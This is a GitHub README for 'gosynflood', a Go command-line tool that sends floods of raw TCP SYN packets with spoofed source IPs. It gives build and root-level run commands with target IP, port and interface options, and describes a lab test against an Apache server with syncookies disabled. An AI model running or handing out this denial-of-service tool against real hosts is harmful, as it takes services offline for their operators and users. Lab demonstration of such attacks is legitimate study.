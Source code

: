 
### gosynflood - Repeatedly Send Raw TCP SYN Packets

###### USAGE:
<pre>
  <code>
# get the project
go get github.com/rootVIII/gosynflood


# Navigate to project root and build:
go build .

# raw sockets require root privileges when executing:
sudo ./gosynflood \
    -t &lt;target IPV4 address&gt; \
    -p &lt;port number&gt; \
    -i &lt;network interface&gt;

# Example:
sudo ./gosynflood -t 192.168.1.120 -p 80 -i wlp3s0 -n 500
  </code>
</pre>

###### CLI OPTIONS:
<pre>
  <code>
-t private or public IP address of webserver
-p port number (defaults to port 80 if not provided)
-i network interface (run program without -i to see found interfaces)

Enter control-C to stop the flood attack.
  </code>
</pre>

Each packet's IP address is spoofed. MAC addresses are not spoofed however.

This attack may only work on web servers that for some reason do not have a method
of preventing numerous half-open connections (SYN_RECV).

To demonstrate this, a small Ubuntu Mate running Apache2 will act as the target.
It's a physical machine on a private network.

<hr>
1. The tcp_syncookies flag was set to 0 (to make the target vulnerable for demonstration purposes) and the webserver was started on the target:
<img src="https://github.com/rootVIII/gosynflood/blob/master/bin/screenshots/1.png">


2. The attacker machine (a separate physical machine also running Ubuntu) executes the gosynflood exe with root privileges:
<img src="https://github.com/rootVIII/gosynflood/blob/master/bin/screenshots/5.png">


3. The initial SYNs are visible in Wireshark on the target
<img src="https://github.com/rootVIII/gosynflood/blob/master/bin/screenshots/2.png">
<img src="https://github.com/rootVIII/gosynflood/blob/master/bin/screenshots/3.png">


4. During the attack the webserver should be unreachable at it's URL if it is susceptible. The half-open connections are visible via the command <code>netstat -na --tcp</code>
<img src="https://github.com/rootVIII/gosynflood/blob/master/bin/screenshots/4.png">




This was developed on Ubuntu 18.04 LTS.
<hr>
<b>Author: rootVIII  2020</b>
<br><br>